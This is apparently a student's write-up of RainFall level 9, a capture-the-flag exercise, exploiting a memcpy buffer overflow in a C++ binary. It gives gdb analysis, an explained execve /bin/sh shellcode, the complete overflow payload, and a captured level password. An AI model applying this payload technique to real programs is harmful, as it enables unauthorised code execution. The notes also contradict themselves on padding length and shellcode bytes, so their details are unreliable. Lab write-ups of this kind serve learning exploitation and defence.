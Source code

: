 # Level 9

## First clue

## Analysis
If we disas the main function there are 2 lines, and what is between them, that are importat for us because they are the key to uderstand how we can exploit the bufferoverflow to call the shellcode:
- `0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>` => this instruction calls the setAnnotation function, passing it a pointer to a character array (EPc likely denotes a pointer to a character array). The setAnnotation function does strlen the string passed as argument and copy it without bounce chacking into the buffer (using memcpy), as we can see disassemblying the setAnnotation function (`disas 0x804870e`). That means that we can bufferoverflow the return of setAnnotation.
- `0x08048693 <+159>:	call   *%edx`=> This is the crucial instruction where the program makes a call using the value in edx. Since edx was previously loaded with the value pointed to by esp + 0x10, this effectively means the program is making a call to the address stored at esp + 0x10. This is where where we want to store the shellcode.

Between the 2 lines we have these instructios:
- mov 0x10(%esp),%eax: Here, we're accessing the value at esp + 0x10 and moving it into the eax register. Yes, esp + 0x10 is indeed the same as saying 0x10(%esp).

- mov (%eax),%eax: This instruction dereferences the value stored in eax and loads the value it points to back into eax. Essentially, it's loading the content pointed to by esp + 0x10 into eax.

- mov (%eax),%edx: Similar to the previous instruction, this one dereferences the value stored in eax (which is the content pointed to by esp + 0x10) and loads it into the edx register. So, edx now holds the value pointed to by esp + 0x10, which is likely an address.

- mov 0x14(%esp),%eax: This instruction is accessing the value at esp + 0x14 and moving it into eax. It's important to note that esp + 0x14 is likely where the return address from the setAnnotation function call is stored. This value might be needed later.

- mov %eax,0x4(%esp): Here, the value in eax is moved into memory at esp + 0x4. This is likely setting up some arguments for the next function call.

- mov 0x10(%esp),%eax: This instruction loads the value at esp + 0x10 back into eax. It seems redundant since we already did this earlier.

- mov %eax,(%esp): Finally, the value in eax is moved onto the top of the stack (esp). This is likely setting up the argument for the next function call.

**Key points**:
- esp + 0x10 is likely the memory location where the return address from the setAnnotation function call is stored. When setAnnotation finishes executing, control flow will return to the address stored at esp + 0x10.
- setAnnotations is vulnerable to a buffer overflow when calling memcpy. By overflowing the buffer with shellcode, we overwrite the return address (EIP) with the address of our shellcode. When the function returns, it tries to jump to the address stored in EIP, which now points to our shellcode instead of the original return address. This allows us to hijack control flow and execute our shellcode
-  The setAnnotation function takes a pointer to a string (an array of characters terminated by a null character) as its argument. When the function is called, it copies the contents of the provided string to another location in memory, the buffer

- setAnnotation doesn't return a string itself. The function likely returns nothing (void), but it may indirectly "return" the memory address where the string was copied, that is the buffer.

## Finding the offset of %eax
- if we pass `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`to the program it segfault at the moment where the hexadecimal 0x41366441 is registered in eax. (`info register eax`)
- 0x41366441 correspond to `Ad6A` inn little endian, that is position 108

## How to exploit the vulnerability:
- we want to overflow the buffer and overwrite the return address of the function that called setAnnotation, which is the main function in this case.
- we want to  overwrite the return address with the address of the start of the memcpy buffer, where we want to add the shellcode.

## Finding the address of the start of the memcpy buffer
- if we set a breakpoint at the instruction line where the return address of setAnnotation is move to eax we can find the address returned by setAnnotations (the oe we want to write the shellcode to execute in):
```
(gdb) break *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:	0x41414141
```
- x $eax => this tells us both the address contained in the eax register and the value stored at that address
- similarly the main function gets the value at the memory location pointed to by eax (deferenciating it) in the line `0x08048682 <+142>:	mov    (%eax),%edx` obtaining an address (that is the contnt of eax): 0x804a00c
- we need to deferenciate this address a second times to get the real content of it, that we want to be the shellcode
- to access it, assuming that 0x804a00c point to the next memory case in the stack (static then contiguous) we need to add 4 bytes to this address to get the real address of the content,the actual shellcode => 0x804a00c + 4 = 0x804a010


## How to launch shell using hexadecimal instructions
- [Look at this](https://shell-storm.org/shellcode/files/shellcode-827.html)
- so yes this is the string we can use to launch shell: "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
- it is a representation of shellcode written in hexadecimal format. Each pair of hexadecimal digits corresponds to a byte in memory
- \x31\xc0: This represents the xor %eax, %eax assembly instruction. It zeros out the %eax register.
-going furher in details: 
    - \x31: This byte corresponds to the opcode of the "xor" instruction in x86 assembly language. Specifically, it indicates the "xor" instruction with a register as the destination operand.
    - \xc0: This byte corresponds to the ModR/M byte, which specifies the registers involved in the instruction. In this case, it indicates that the destination operand is %eax and there is no source operand.
GLOSSARY:
- opcpde: In x86 assembly language, instructions are represented using mnemonics, such as mov, add, sub, etc. When translated into machine code, each mnemonic corresponds to one or more bytes of opcode. The opcode byte(s) appear at the beginning of the machine code representation of the instruction.
- \x50: This represents the push %eax instruction. It pushes the value of %eax (which is now zero) onto the stack.
- [to better understand register memory](https://www.javatpoint.com/register-memory)

- \x68\x2f\x2f\x73\x68: These bytes represent the string /bin//sh in hexadecimal ASCII format. Remember that ASCII characters are represented in hexadecimal with two characters per byte. So, \x68 represents h, \x2f represents /, \x73 represents s, and so on.

- \x68\x2f\x62\x69\x6e: These bytes represent the second part of the /bin//sh string.

- \x89\xe3: This represents the mov %esp, %ebx instruction. It moves the address of the start of the string /bin//sh into the %ebx register.

- \x50: This is another push %eax instruction, pushing a null byte onto the stack.

- \x53: This represents the push %ebx instruction, pushing the address of the string /bin//sh onto the stack.

- \x89\xe1: This represents the mov %esp, %ecx instruction. It moves the address of the stack pointer into the %ecx register.

- \xb0\x0b: This represents the mov $0xb, %al instruction. It sets the %al register to 0xb, which is the syscall number for execve.

- \xcd\x80: This represents the int $0x80 instruction, which triggers the interrupt 0x80, causing the kernel to execute the execve syscall with the parameters set up previously.

- In summary, this shellcode sets up the registers and stack to execute the execve system call, spawning a shell (/bin/sh).

- key pint: Shell code is 28 bytes

## Exploit
- since we need to overflow the buffer, that is 108 bytes long, our payload need to be longer than that:
- the shell code is 28 bytes (\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80)
- the shell address (in little endian \x10\xa0\x04\x08) is 4 bytes
- the buffer address (in little endian \x0c\xa0\04\x08) is 4 bytes
- so we need 108 - (4 + 4 + 28 = 36) = 72 bytes of padding, met's say "A" * 72
- and voila the payload: 
```
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

## Solution 
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ cat /home/user/bonus0/.pass 
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```